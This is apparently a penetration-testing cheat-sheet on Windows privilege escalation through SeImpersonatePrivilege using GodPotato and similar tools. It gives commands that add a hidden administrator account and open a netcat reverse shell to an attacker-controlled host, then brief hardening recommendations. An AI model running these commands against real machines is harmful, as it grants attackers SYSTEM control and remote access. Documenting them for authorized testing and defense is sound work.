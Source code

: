 # SeImpersonatePrivilege
---

## Exploit

Example below using [GodPotato](https://github.com/BeichenDream/GodPotato). *SeImpersonatePrivilege* can be also leveraged by [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), [RoguePotato](https://github.com/antonioCoco/RoguePotato), and [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato).

```bash
# Check if SeImpersonatePrivilege is enabled for the current user.
whoami /priv

# Execute command as NT AUTHORITY/SYSTEM.
.\GodPotato.exe -cmd "net user $username $password /add; net localgroup administrators $username /add"
.\GodPotato.exe -cmd "nc.exe $lhost $lport -e cmd"
```

## Recommendations

- [ ] Disable SeImpersonatePrivilege on domain and local users.
- [ ] Enforce EDR on Windows hosts to detect and block GodPotato-like exploits.